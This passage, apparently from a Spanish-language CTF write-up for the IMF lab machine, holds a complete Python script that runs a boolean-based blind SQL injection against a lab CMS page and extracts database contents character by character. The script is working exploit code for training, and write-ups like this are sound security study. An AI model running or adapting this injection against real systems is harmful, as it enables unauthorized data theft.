 - Data:

    ![](/assets/images/IMF/Pasted-image-20240605131631.png)

Finalmente, se enumera el contenido de la columna:

```
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, time, string

def ctrl_c(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables globales
characters = string.ascii_lowercase + "&_-:," + string.digits
main_url = "http://192.168.3.227/imfadministrator/cms.php?pagename="

def sqli():

    header = {
        'Cookie': 'PHPSESSID=a7rq935a1b6pmjphdgnkhn5kh2'
    }

    data = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyección SQL")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 500):
        for character in characters:

            sqli_url = main_url + "home' or substring((select group_concat(pagename) from pages),%d,1)='%s" % (position, character)

            r = requests.get(sqli_url, headers=header)

            if "Welcome to the IMF Administration." not in r.text:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de inyección SQL finalizado exitosamente")
    p2.success(data)

if __name__ == '__main__':

    sqli()
```

